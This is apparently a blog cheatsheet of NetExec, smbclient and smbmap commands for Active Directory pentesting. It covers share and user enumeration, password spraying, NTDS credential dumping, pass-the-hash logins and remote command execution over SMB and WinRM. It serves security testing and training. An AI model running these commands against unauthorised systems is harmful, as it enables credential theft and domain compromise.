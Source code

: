 ```yaml
---
title: "NetExec (NXC) Commands Cheatsheet for AD Pentesting and Red Teaming"
date: 2025-02-16 10:10:00 +0700
categories: [Cheatsheets]
tags: [Cheatsheets, NetExec, Active Directory, Red Teaming]
pin: false
---
```


# NetExec (NXC) Commands Cheatsheet

## Introduction

This cheatsheet provides a collection of essential NetExec (`nxc`) commands for Active Directory penetration testing and red teaming engagements. NetExec is a powerful post-exploitation and enumeration tool that simplifies network service attacks across large environments. It supports multiple protocols, including SMB, LDAP, and WinRM, making it an invaluable resource for security professionals.

For more detailed information and advanced usage, visit the official NetExec wiki: [NetExec Wiki](https://www.netexec.wiki/){:target="_blank"}.

## NXC Commands

## Enumeration

### Generate Hosts File
```
nxc smb <host> --generate-hosts-file hosts
```

### List Shares with Guest Access
```
nxc smb <host> -u a -p '' --shares
```

### Enumerate Domain Users with RID Brute-Forcing
```
nxc smb <host> -u a -p '' --rid-brute
```

### Extract Usernames from Output
```
cat tmp | cut -d '\\' -f2 | awk '{print $1}'
```

### Search for Files on Readable Shares
```
nxc smb <host> -u a -p '' -M spider_plus
```

### Download a Specific File from a Share
```
nxc smb <host> -u a -p '' --get-file '<file>' <output-file> --share <share>
```

## Password Spraying
```
nxc smb <host> -u users.txt -p '<password>' --continue-on-success
```

## LDAP Enumeration

### List Domain Users
```
nxc ldap <host> -u <user> -p '<password>' --users
```

### Get Only User Descriptions
```
nxc ldap <host> -u <user> -p '<password>' -M get-desc-users
```

## SMB Access Verification
```
nxc smb <host> -u <user> -p '<password>'
```

## WinRM Access Verification
```
nxc winrm <host> -u <user> -p '<password>'
```

## Execute Commands over WinRM
```
nxc winrm <host> -u <user> -p '<password>' -X '<command>'
```

## LDAP Group Membership Enumeration
```
nxc ldap <host> -u <user> -p '<password>' -M groupmembership -o USER='<user>'
```

## Dumping NTDS using Backup Operators Module
```
nxc smb <host> -u <user> -p '<password>' -M backup_operator
```

## Dumping NTDS using NTDSUTIL
```
nxc smb <host> -u administrator -H <NTLM-hash> -M ntdsutil
```

## SMBClient Commands

### List Available Shares
```
smbclient -L //<host> -U '<user>%<password>'
```

### Connect to a Share
```
smbclient //<host>/<share> -U '<user>%<password>'
```

### Download a File
```
get <file>
```

### Upload a File
```
put <file>
```

### List Files in a Directory
```
ls
```

## SMBMap Commands

### List Shares with Anonymous Access
```
smbmap -H <host>
```

### Authenticate and List Shares
```
smbmap -H <host> -u '<user>' -p '<password>'
```

### List Files in a Share
```
smbmap -H <host> -u '<user>' -p '<password>' -r '<share>'
```

### Download a File
```
smbmap -H <host> -u '<user>' -p '<password>' -r '<share>' -A '<file>' -q
```

### Upload a File
```
smbmap -H <host> -u '<user>' -p '<password>' -r '<share>' --upload '<local_file>' '<remote_path>'
```

## Login with Dumped Administrator Hash
```
nxc smb <host> -u administrator -H <NTLM-hash>
```

## Execute Commands as Administrator via SMB
```
nxc smb <host> -u administrator -H <NTLM-hash> -x '<command>'
```

